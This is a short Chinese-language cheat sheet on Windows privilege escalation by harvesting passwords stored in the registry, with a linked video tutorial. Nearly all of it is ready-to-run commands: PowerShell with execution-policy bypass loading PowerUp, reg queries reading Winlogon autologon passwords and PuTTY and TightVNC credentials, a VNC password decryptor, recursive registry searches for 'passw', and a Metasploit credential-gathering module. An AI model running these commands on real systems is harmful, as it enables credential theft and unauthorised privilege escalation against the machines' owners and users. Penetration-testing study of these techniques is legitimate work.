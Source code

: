 ```yaml
---
title: 注册表密码挖掘的提权
categories:
- windows
tags:
- windows
---
```

注册表密码挖掘的提权
===
视频教程：https://www.acfun.cn/v/ac13017016】
## 自动登陆密码
```
powershell -nop -ep bypass
Import-Module C:\Users\user\Desktop\PowerUp.ps1
Get-RegistryAutoLogon         
#查找注册表中自动登陆的密码
---
1.
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername
2.
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```
## 软件密码
```
3.
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42 -v ProxyUsername
4.
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42 -v ProxyPassword
5.
reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v Password
6.
reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v PasswordViewOnly
C:\Users\User\Desktop\Tools\vncpwd\vncpwd.exe 加密后的密码
cmd面板 右键mark
```
## 编写注册表脚本自动登陆
```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"AutoAdminLogon"="1" 
"DefaultUserName"="自动登陆的用户名"
"DefaultDomainName"="0"
"DefaultPassword"="自动登陆的用户密码"
```
修改自动登陆的用户密码会发生什么？

## 搜索注册表所有密码
```
reg query HKLM /f passw /t REG_SZ /s
reg.exe query HKCU /f passw /t REG_SZ /s
```
## msfconsole
search post/windows/gather/credentials/windows_autologin
